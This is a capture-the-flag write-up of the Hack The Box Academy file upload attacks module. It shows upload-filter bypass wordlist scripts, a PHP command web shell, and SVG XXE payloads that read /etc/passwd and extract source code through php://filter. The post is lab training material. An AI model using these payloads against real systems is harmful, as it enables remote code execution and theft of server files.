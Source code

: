 ```yaml
---
layout: post
title:  "Hack The Box - Academy - File Upload Attacks"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy File Upload Attacks Skills Assessment. Master file upload attack techniques to exploit vulnerable web applications with expert guidance from Zwarts Sec, perfect for enhancing your penetration testing skills and preparing for HTB challenges."
date:   2024-10-23 18:48
image:  /images/htb/file-upload-attacks/logo.png
tags:   [file-upload-attacks,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/136/section/1259">File Upload Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/file-upload-attacks/File_Upload_Attacks_Module_Cheat_Sheet.pdf">File Upload Attacks - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst">PayloadsAllTheThings - PHP Extensions List</a><br/>
<a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures</a><br/>


<hr/>

## Notes:
Filter image content types from Content-Type wordlist:

**Wordlist path:** <br/>
`/usr/share/wordlists/seclists/Miscellaneous/Web/content-type.txt`
```
cat content-type.txt | grep 'image/' > image-content-types.txt
```

## Whitelist Filters - Exercise

### The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read `"/flag.txt"`

Create a `custom wordlist` by executing the below bash script:
```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

#### Step-by-Step Guide to Automating File Upload Testing with Caido
- Launch Caido and navigate to the Automation section.

- Initiate an Upload Request: 
Create an upload request and set the filename as the automation payload.

- Use the Wordlist:
Copy the content from the specified wordlist and paste it into the Simple List input field within Caido.

- Start the Automation
Begin the automation process by clicking the start button.

- Review the Results
Once the automation completes, review the results.

- Filter the Results
Sort the results by length in descending order and look for responses with a length of `193`.

- Test the Successful File Extensions
Identify which file extensions were successfully uploaded and test them further for potential vulnerabilities.

`Payload:`

```
<?php system($_REQUEST['cmd']); ?>
```

![Caido White list Request](/images/htb/file-upload-attacks/white-list-filter-caido-request.png)

![Caido White list Result](/images/htb/file-upload-attacks/white-list-filter-caido-result.png)

![Webshell](/images/htb/file-upload-attacks/white-list-filter-web-shell.png)

Navigate through the folders to locate the `flag.txt` file.

![Webshell](/images/htb/file-upload-attacks/white-list-filter-flag-result.png)
<hr/>

## Type Filters - Exercise

### The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at `"/flag.txt"`

Use a png file and add the .phtml extension in the filename add the web shell below the MIME type and execute the upload functionality.
![Type filters - Request](/images/htb/file-upload-attacks/type-filters-request.png)
![Type filters - Result](/images/htb/file-upload-attacks/type-filters-result.png)

<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.<br/><br/>
Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

### Extra Exercise
Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


### Try to exploit the upload form to read the flag found at the root directory "/".
During our analysis of the web application, we identified a file upload feature located on the 'Contact Us' page.

#### 1. Identify File Storage: 
When uploading an image, the application does not reveal where the uploaded file is stored.

#### 2. Access Source Code: 
To understand the file storage mechanism, obtain the source code of the upload.php file.

#### 3. Monitor POST Method: 
Observe that when an image is uploaded, the POST method returns the image result.

#### 4. Test for Vulnerability: 
Use an SVG file to test if the application is vulnerable to `XML External Entity (XXE)` attacks. I used the payload below to check if we can read the contents of the `/etc/passwd` file.

```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Result](/images/htb/file-upload-attacks/skills-assessment-xxe-test.png)

#### 5. Extract Upload.php source code:
```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Upload.php Source Code](/images/htb/file-upload-attacks/skills-assessment-upload-source-code.png)

Use Caido to base64 decode the payload and analyze the `upload.php` source code.

![Decode payload with Caido](/images/htb/file-upload-attacks/skills-assessment-decode-caido.png)

`Uploade.php source code decrypted:`

![Upload.php source code decrypted](/images/htb/file-upload-attacks/skills-assessment-upload-source-code-decrypted.png)

After analyzing the source code, you'll be able to identify the upload directory and the format of the saved file. One issue I encountered was related to time zones; I was in the AEST timezone with a different date to the server. Additionally, you can view the code to bypass the image filters. Now, upload a new image containing a web shell.

Leverage the custom wordlist below to generate potential extensions that are not blacklisted. Begin by sending an upload request to Caido Automate, mark the `filename` as the `placeholder` and load the wordlist using the Simple List option. In the request body, insert the PHP web shell after the `MIME type`, then click "Run" to initiate the automation. Finally, review the results to identify the allowed extensions.

Create a `custom wordlist` by executing the below bash script:

```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "Zwarts$char$ext.png" >> wordlist.txt
        echo "Zwarts$ext$char.png" >> wordlist.txt
        echo "Zwarts.png$char$ext" >> wordlist.txt
        echo "Zwarts.png$ext$char" >> wordlist.txt
    done
done
```

```
<?php system($_REQUEST['cmd']); ?>
```
![Caido Automate Request](/images/htb/file-upload-attacks/skills-assessment-caido-automate.png)

`Look for results that has a content length > 190`

![Caido Automate Results](/images/htb/file-upload-attacks/skills-assessment-caido-automate-results.png)

![Flag Result](/images/htb/file-upload-attacks/skills-assessment-flag-result.png)

<hr/>